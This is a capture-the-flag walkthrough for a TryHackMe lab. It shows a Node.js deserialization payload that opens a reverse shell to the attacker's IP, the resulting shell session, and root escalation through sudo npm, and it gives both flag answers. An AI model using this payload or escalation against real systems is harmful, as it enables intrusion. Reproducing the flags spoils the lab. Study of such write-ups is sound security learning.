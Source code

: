# Retro Walkthrough
### Link
- https://tryhackme.com/room/jason
---
### Recon
```
nmap -sC -sC -p- [IP]
```
**Namp scan result**
```
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2022-01-30 20:11 CEST
Nmap scan report for 10.10.237.12
Host is up (0.25s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```
Let's check  the website. We gather interesting information from the homepage : Built with NodeJs

Now, chexk the source page
```
 <script>
    document.getElementById("signup").addEventListener("click", function() {
	var date = new Date();
    	date.setTime(date.getTime()+(-1*24*60*60*1000));
    	var expires = "; expires="+date.toGMTString();
    	document.cookie = "session=foobar"+expires+"; path=/";
    	const Http = new XMLHttpRequest();
        console.log(location);
        const url=window.location.href+"?email="+document.getElementById("fname").value;
        Http.open("POST", url);
        Http.send();
	setTimeout(function() {
		window.location.reload();
	}, 500);
    }); 
    </script>
```
Great finding :  const url=window.location.href+"?email="+document.getElementById("fname").value;

Now, Let's check what happens if I put an email.

Try this email: test@test.com and if we check the session token : eyJlbWFpbCI6InRlc3RAdGVzdC5jb20ifQ==

*Reverse*
```
echo eyJlbWFpbCI6InRlc3RAdGVzdC5jb20ifQ== | base64 -d
{"email":"test@test.com"}
```

We have an opportunity to manipulate the session cookie ^^
---
### Exploit
To be able to exploit a potential NodeJs, let's try this [exploit](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/)

- First: Create your payload
```
echo -n '{"email": "_$$ND_FUNC$$_function() { var net = require(\"net\"), cp = require(\"child_process\"), sh = cp.spawn(\"/bin/sh\", []);var client = new net.Socket();client.connect(4646, \"10.6.96.167\", function(){client.pipe(sh.stdin);sh.stdout.pipe(client);sh.stderr.pipe(client);});return /a/;}()"}' | base64

eyJlbWFpbCI6ICJfJCRORF9GVU5DJCRfZnVuY3Rpb24oKSB7IHZhciBuZXQgPSByZXF1aXJlKFwibmV0XCIpLCBjcCA9IHJlcXVpcmUoXCJjaGlsZF9wcm9jZXNzXCIpLCBzaCA9IGNwLnNwYXduKFwiL2Jpbi9zaFwiLCBbXSk7dmFyIGNsaWVudCA9IG5ldyBuZXQuU29ja2V0KCk7Y2xpZW50LmNvbm5lY3QoNDY0NiwgXCIxMC42Ljk2LjE2N1wiLCBmdW5jdGlvbigpe2NsaWVudC5waXBlKHNoLnN0ZGluKTtzaC5zdGRvdXQucGlwZShjbGllbnQpO3NoLnN0ZGVyci5waXBlKGNsaWVudCk7fSk7cmV0dXJuIC9hLzt9KCkifQ==
```
- Second: Start a listener
- Third: Change the current session token with the new one 
- Fourth: Result
```
Connection from 10.10.154.254:41110
whoami
dylan
ls -l
total 24
-r--r--r--  1 root root 3561 Sep  2 16:10 index.html
drwxr-xr-x 23 root root 4096 Jun 10  2021 node_modules
-rw-r--r--  1 root root  385 Jun 10  2021 package.json
-rw-r--r--  1 root root 6332 Jun 10  2021 package-lock.json
-rw-r--r--  1 root root 1454 Sep  2 16:10 server.js
pwd
/opt/webapp
ls -al
total 32
drwxr-xr-x  3 root root 4096 Sep  2 16:10 .
drwxr-xr-x  3 root root 4096 Jun 10  2021 ..
-r--r--r--  1 root root 3561 Sep  2 16:10 index.html
drwxr-xr-x 23 root root 4096 Jun 10  2021 node_modules
-rw-r--r--  1 root root  385 Jun 10  2021 package.json
-rw-r--r--  1 root root 6332 Jun 10  2021 package-lock.json
-rw-r--r--  1 root root 1454 Sep  2 16:10 server.js
cd home
/bin/sh: 5: cd: can't cd to home
cd /home
ls -l
total 4
drwxr-xr-x 5 dylan dylan 4096 Jun 10  2021 dylan
cd dylan
ls -la
total 40
drwxr-xr-x 5 dylan dylan 4096 Jun 10  2021 .
drwxr-xr-x 3 root  root  4096 Jun 10  2021 ..
lrwxrwxrwx 1 dylan dylan    9 Jun 10  2021 .bash_history -> /dev/null
-rw-r--r-- 1 dylan dylan  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 dylan dylan 3771 Feb 25  2020 .bashrc
drwx------ 2 dylan dylan 4096 Jun 10  2021 .cache
drwx------ 3 dylan dylan 4096 Jun 10  2021 .config
drwxrwxr-x 3 dylan dylan 4096 Jun 10  2021 .local
-rw-r--r-- 1 dylan dylan  807 Feb 25  2020 .profile
-rw-rw-r-- 1 dylan dylan   66 Jun 10  2021 .selected_editor
-rw-r--r-- 1 dylan dylan    0 Jun 10  2021 .sudo_as_admin_successful
-rw-r--r-- 1 dylan dylan   33 Jun 10  2021 user.txt
cat user.txt
0ba48780dee9f5677a4461f588af217c
```
**Question**
#### user.txt
**Answer** 
#### 0ba48780dee9f5677a4461f588af217c
---
### Privilege escalation
```
sudo -l
Matching Defaults entries for dylan on jason:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User dylan may run the following commands on jason:
    (ALL) NOPASSWD: /usr/bin/npm *
```
Ok, we can run /usr/bin/npm without password.Let's check [gtfobins](https://gtfobins.github.io/gtfobins/npm/)
```
User dylan may run the following commands on jason:
    (ALL) NOPASSWD: /usr/bin/npm *
TF=$(mktemp -d)
echo '{"scripts": {"preinstall": "/bin/sh"}}' > $TF/package.json
sudo npm -C $TF --unsafe-perm i

> @ preinstall /tmp/tmp.L9fV82nx7K
> /bin/sh

whoami
root
pwd
/tmp/tmp.L9fV82nx7K
cd /root/
ls -l
total 4
-rw-r--r-- 1 root root 33 Jun 10  2021 root.txt
cat root.txt
2cd5a9fd3a0024bfa98d01d69241760e
```
**Question**
#### root.txt
**Answer** 
#### 2cd5a9fd3a0024bfa98d01d69241760e
